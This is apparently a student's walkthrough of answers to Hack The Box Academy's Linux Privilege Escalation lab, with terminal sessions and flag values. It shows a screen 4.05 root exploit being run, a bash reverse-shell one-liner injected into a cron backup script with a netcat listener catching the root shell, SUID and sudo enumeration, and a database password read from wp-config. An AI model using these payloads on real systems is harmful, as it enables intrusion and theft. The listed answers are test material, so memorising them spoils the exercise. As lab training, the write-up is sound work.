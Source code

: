 # Web Requests
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Linux Privilege Escalation
* Tier: II
* Difficulty: Easy
* Category: Offensive
* Time estimate: 8 hours
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Kernel Exploits
### Question:
![](./attachments/Pasted%20image%2020221116125927.png)

**Answer:** ``

---
## Vulnerable Services
### Question:
![](./attachments/Pasted%20image%2020221116125949.png)

```
┌──(kali㉿kali)-[/etc]
└─$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```



```
┌──(kali㉿kali)-[/etc]
└─$ ssh htb-student@10.129.93.127   
htb-student@10.129.93.127's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

242 packages can be updated.
174 updates are security updates.


Last login: Wed Nov 16 12:50:06 2022 from 10.10.15.45
htb-student@NIX02:~$ touch script.sh
htb-student@NIX02:~$ nano script.sh

```

Insert the exploit code in `script.sh` and save.

```
htb-student@NIX02:~$ chmod +x script.sh
htb-student@NIX02:~$ ./script.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# cat /root/screen_exploit/flag.txt
91927dad55ffd22825660da88f2f92e0
```

**Answer:** `91927dad55ffd22825660da88f2f92e0`

---
## Cron Job Abuse
### Question:
![](./attachments/Pasted%20image%2020221116133342.png)

```
htb-student@NIX02:~$ cat /dmz-backups/backup.sh
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 htb-student@NIX02:~$ nano /dmz-backups/backup.sh
```

Insert one-liner payload `bash -i >& /dev/tcp/10.10.15.45/443 0>&1` and save.

Then setup `netcat` to listen for the incoming connection.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.93.127.
Ncat: Connection from 10.129.93.127:45650.
bash: cannot set terminal process group (1884): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~# cat cron_abuse/flag.txt
cat cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

**Answer:** `14347a2c977eb84508d3d50691a7ac4b`

---
## Special Permissions
### Question 1:
![](./attachments/Pasted%20image%2020221116134354.png)

```
htb-student@NIX02:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 8816 Nov 16 12:55 /tmp/rootshell
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31  2020 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 73424 Feb 12  2016 /bin/sed
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31  2020 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9  2020 /sbin/mount.nfs
```

**Answer:** `/bin/sed`

### Question 2:
![](./attachments/Pasted%20image%2020221116134405.png)

```
htb-student@NIX02:~$ find / -uid 0 -perm -6000 -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/bin/facter
```

**Answer:** `/usr/bin/facter`

---
## Sudo Rights Abuse
### Question:
![](./attachments/Pasted%20image%2020221116135558.png)

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

**Answer:** `/usr/bin/openssl`

---
## Path Abuse
### Question:
![](./attachments/Pasted%20image%2020221116140516.png)

```
htb-student@NIX02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

**Answer:** `/tmp`

---
## 
### Question:
![](./attachments/Pasted%20image%2020221116141355.png)
*Hint: Look in the default WordPress configuration file.*

```
htb-student@NIX02:~$ ls /var/www/html
index.php    wp-activate.php     wp-comments-post.php  wp-content   wp-links-opml.php  wp-mail.php      wp-trackback.php
license.txt  wp-admin            wp-config.php         wp-cron.php  wp-load.php        wp-settings.php  xmlrpc.php
readme.html  wp-blog-header.php  wp-config-sample.php  wp-includes  wp-login.php       wp-signup.php
htb-student@NIX02:~$ cat /var/www/html/wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'W0rdpr3ss_sekur1ty!' );
htb-student@NIX02:~$
```

**Answer:** `W0rdpr3ss_sekur1ty!`

---
## 
### Question:


**Answer:** ``

---
## 
### Question:


**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]
